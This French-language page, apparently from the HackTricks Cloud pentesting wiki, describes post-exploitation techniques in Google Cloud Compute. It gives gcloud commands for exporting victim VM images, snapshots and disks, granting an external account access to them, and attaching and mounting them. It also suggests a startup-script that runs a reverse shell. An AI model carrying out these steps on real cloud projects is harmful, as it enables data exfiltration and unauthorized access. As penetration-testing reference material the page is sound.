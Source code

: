 # GCP - Compute Post Exploitation

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Compute

Pour plus d'informations sur Compute et VPC (Réseau), consultez :

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Exporter et inspecter des images localement

Cela permettrait à un attaquant d'**accéder aux données contenues dans des images existantes** ou de **créer de nouvelles images de VM en cours d'exécution** et d'accéder à leurs données sans avoir accès à la VM en cours d'exécution.

Il est possible d'exporter une image de VM vers un bucket, puis de la télécharger et de la monter localement avec la commande :

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Avant de réaliser cette action, l'attaquant pourrait avoir besoin de privilèges sur le bucket de stockage et bien sûr **de privilèges sur cloudbuild** car c'est le **service** qui sera chargé d'effectuer l'export. De plus, pour que cela fonctionne, le SA de codebuild et le SA de compute ont besoin d'autorisations privilégiées. Le SA de cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` a besoin de :

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Et le SA `<project-id>-compute@developer.gserviceaccount.com` a besoin de :

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Exporter et inspecter des instantanés et des disques localement

Il n'est pas possible d'exporter directement des instantanés et des disques, mais il est possible de **transformer un instantané en disque, un disque en une image** et en suivant la **section précédente**, exporter cette image pour l'inspecter localement

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Examiner une image en créant une VM

Dans le but d'accéder aux **données stockées dans une image** ou à l'intérieur d'une **VM en cours d'exécution** à partir de laquelle un attaquant **a créé une image**, il est possible d'accorder un accès à un compte externe sur l'image :

```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```

et ensuite créer une nouvelle VM à partir de celui-ci :

```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```

Si vous ne pouviez pas donner accès à votre compte externe sur l'image, vous pourriez lancer une VM en utilisant cette image dans le projet de la victime et **faire exécuter une coquille inversée par les métadonnées** pour accéder à l'image en ajoutant le paramètre :

```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```

### Inspecter un instantané/disque en le connectant à une VM

Dans le but d'accéder aux **données stockées dans un disque ou un instantané, vous pourriez transformer l'instantané en disque, un disque en une image et suivre les étapes précédentes.**

Ou vous pourriez **accorder l'accès à un compte externe** sur le disque (si le point de départ est un instantané, accordez l'accès à l'instantané ou créez un disque à partir de celui-ci) :

```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```

**Attacher le disque** à une instance :

```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```

Montez le disque à l'intérieur de la VM :

1. **Connectez-vous en SSH à la VM** :

```sh
gcloud compute ssh [NOM_INSTANCE] --zone [ZONE]
```

2. **Identifiez le Disque** : Une fois à l'intérieur de la VM, identifiez le nouveau disque en listant les périphériques de disque. Vous le trouverez généralement sous la forme `/dev/sdb`, `/dev/sdc`, etc.
3. **Formatez et Montez le Disque** (s'il s'agit d'un disque neuf ou brut) :

* Créez un point de montage :

```sh
sudo mkdir -p /mnt/disks/[REP_MONTAGE]
```

* Montez le disque :

```sh
sudo mount -o discard,defaults /dev/[DISPOSITIF_DISQUE] /mnt/disks/[REP_MONTAGE]
```

Si vous **ne pouvez pas donner accès à un projet externe** à l'instantané ou au disque, vous devrez peut-être **effectuer ces actions à l'intérieur d'une instance du même projet que l'instantané/le disque**.
